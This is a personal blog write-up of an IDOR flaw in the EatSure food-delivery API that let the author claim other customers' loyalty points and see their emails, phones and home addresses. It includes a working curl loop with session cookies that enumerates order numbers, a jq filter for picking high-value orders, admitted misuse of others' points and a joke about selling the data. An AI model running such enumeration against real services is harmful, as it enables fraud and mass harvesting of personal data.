





when you order from EatSure, you get the amount paid per order credited as Sure Points. this gets automatically credited to your account once the order is delivered. and you can redeem them on later orders, if you have a lot of them you can pay for an order entirely using Sure Points. 

also, their kitchen-only restaurants are also available to order from on Zomato & Swiggy. you get SurePoints on those orders as well, but you need to manually enter the 8-digit order CRN(Customer Reference Number?) in their app to claim the points.

---


## What is an IDOR?

Direct Object References is when you ask the server for a file, directory, or any particular information by directly using its reference. for example when you look at a URL with parameter=value in it. a real life scenario? when you go to the ATM and use your debit card to check the balance on your account, it checks your PIN.

[Insecure Direct Object Reference](https://portswigger.net/web-security/access-control/idor) is a type of access control vulnerability, when you're able to check your account balance without using your PIN. EatSure has this PIN authentication missing. And if this authentication is not present, you can very well use your neighbor's card(I don't know why you have that) to check balance on his account too. 

---

## so you want to claim other people's points with this?

only the unclaimed ones, yes, but I need to get a valid CRN first. 

to make my life easier, they have a web app, at https://eatsure.com. that helps me see interactions with the server when it fetches the order details for my CRN input. 



there is a GET request to `/v1/api/get_kitchen_info_data` which takes the parameter order_number and shows on the webpage the delicious food that was ordered, date & time, (COVID stuff) medical certificates & temperatures checks of everyone who handled the food and most importantly the Sure Points associated with it. I just had to +1 and get the details of the next order. 

(the `st` parameter is store identifier which is not mandatory, so i won't be focusing much on that. )



and sure enough(pun unintended) I was able to claim the Sure Points for that order. this is because they are not checking if the account who's claiming the points is the same account which placed the order.

---

## unlimited free food for life?!

not quite, when i tried to claim another CRN, the app says i can only claim 1 Zomato/Swiggy order per month

sed life :( 

this is mentioned in their FAQs, also the points expire 2 months from order date. to prevent hoarding, i guess.

Well played Rebel Foods! \**slow claps*\*

> Rebel Foods is the parent company that owns EatSure & brands listed on the app i'm assuming.

---

## do the math

but i can still claim one order per month. And in order to get the maximum benefit i need all orders from the last 2 months, sort through them to find that one order which gives me the highest points each month. 


and yet they say "no mental maths" required!

All I need is to get a veeeeeeeery long list of valid order numbers by +1ing to this order_number and keep searching until i find the order with the maximum sure points. cool! let me post a job requirement on LinkedIn.



---

## Head in the Clouds

let's get a cloud server ready to request the API using `curl`, and store the JSON response. (i used GCP coz i had free credits) 

```bash title=get_kitchen_info_data.sh  

order_crn=57538099
while :
do
curl -O -s -H $'Host: www.eatsure.com' 
           -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0' 
           -H $'Referer: https://www.eatsure.com/'
           -H $'Connection: close'
           -H $'Cookie: _sid=s%3A33ce1779-11af-58bc-c626-8b41b5d55ac5-1614577225961.HcYnoAn9hYtxjNXwFhe%2FTQorlv48aFYpWXiO3Hd75bI; _ga=GA1.2.1693327020.1614577235; _gid=GA1.2.1807999751.1614577235; _fbp=fb.1.1614577236083.1085916737; WZRK_G=a9a79b7121144d05a9e1386287bbf93f; utm_source=organic; _gat_UA-165961364-1=1; __insp_wid=1863028814; __insp_slim=1614596526243; __insp_nv=true; __insp_targlpu=aHR0cHM6Ly93d3cuZWF0c3VyZS5jb20v; __insp_targlpt=U2FmZXN0IE9ubGluZSBGb29kIERlbGl2ZXJ5IHwgRWF0U3VyZQ%3D%3D; __insp_norec_sess=true' -b $'_sid=s%3A33ce1779-11af-58bc-c626-8b41b5d55ac5-1614577225961.HcYnoAn9hYtxjNXwFhe%2FTQorlv48aFYpWXiO3Hd75bI; _ga=GA1.2.1693327020.1614577235; _gid=GA1.2.1807999751.1614577235; _fbp=fb.1.1614577236083.1085916737; WZRK_G=a9a79b7121144d05a9e1386287bbf93f; utm_source=organic; _gat_UA-165961364-1=1; __insp_wid=1863028814; __insp_slim=1614596526243; __insp_nv=true; __insp_targlpu=aHR0cHM6Ly93d3cuZWF0c3VyZS5jb20v; __insp_targlpt=U2FmZXN0IE9ubGluZSBGb29kIERlbGl2ZXJ5IHwgRWF0U3VyZQ%3D%3D; __insp_norec_sess=true' 
           "https://www.eatsure.com/v1/api/get_kitchen_info_data?order_number=$order_crn"
sleep 1m
(("order_crn++"))
done

```
one to do some house-keeping(renaming files to order_number.json)

```bash title=rename.sh 

for i in ./get* ; 
do 
mv "$i" "${i/get_kitchen_info_data?order_number=/}.json" ; 
done

```

and another one to parse all the JSON files using `jq` to only find the orders with 5000+ Sure Points value. this would be equal to a minimum ₹250 in which i get a range of options to choose from menu.


```bash title=sure_points.sh 

for i in ./*.json ; 
do 
jq "[.data.order_details | del(.data.store, .data.brands, .data.customer, .data.location)] | select(.[].sure_points_value > $1) | select(.[].data.order_source == \"Swiggy\" or .[].data.order_source == \"Zomato\") | .[]" "$i" ; 
done

```

I'm using cloud to automate this monkey business, bcoz why waste another human's time when you can delegate it to a machine?

but also bcoz these graphs look AWESOME while my scripts run. 



---

## Impact.

while parsing the data, I looked at what else the JSON response had, and to my surprise sure points weren't the only valuable information here. it contained private information of the customers, their personal phone number, email, home address. I found mine too. 



This is PII(Personally Identifiable Information). Spammer & Scammers use this data to craft elaborate scams and trick people into money scams, open lines of credit in your name, assume your identity.

but the webpage is not showing any of this so why is this data present in the JSON response?

---

## API3:2019 Excessive Data Exposure

To develop generic solutions, developers tend to send over all object properties without considering their individual sensitivity, and rely on client side code to perform the data filtering before showing it to the user. 

Here, the webpage was only showing the delicious food that was ordered, date & time, medical certificates & temperatures checks (COVID stuff) of everyone who handled the food, and Sure Points associated with it. But, that doesn't mean its the only data the server sent.

---

## what have i done

I’d now found Personally Identifiable Information of all customers ordering from EatSure:

- Email
- Phone number
- Home Address
- All the Tasty Food they ordered.

I can also start with the first order. From the very beginning when EatSure was called Faasos and get this private data of all the people who have ordered from EatSure/Faasos.

this is the kind of data that's sold on the dark web.

but now I have all this information. that can be sold on the dark web. for extra cash. Viel Spaß.

Actually, no. that’s not right. It was a joke.

seriously! don't do that!  

(ok just one quick question, can I get food in exchange for this data?! Is there a market for that?)

## Prevention

The only way to protect against IDOR is to implement strict access control checks(Developers, you should get on that). And to make it easier, modern web frameworks like Ruby on Rails or Django have such these mechanisms built-in by design.

And if you're an individual? Make sure you don't just enter your details on any random website that promises to deliver things in 20 minutes or less.

# FAQs

#### When did all of this happen?

- May 14 - I ordered a Mughlai Chicken Rice Bowl from The Good Bowl via Zomato(it has an omlette on top, i couldn't resist) and discover EatSure. I use EatSure's web app to explore their points system and find the API exposing information.
- May 15 - I contact Rebel Foods and let them know whats happening.
- May 18 - Borderlands 3 goes on sale!

- June 13 - Friends from all walks of life finish reviewing this post 
- June 15 - Rebel Foods team review this post.
- Today - You read this post instead on doom scrolling social media, great job you!

#### How much free food did you order before actually reporting this to Rebel Foods?

Not Enough.

#### Are you still hiring for that job you posted?

NO. 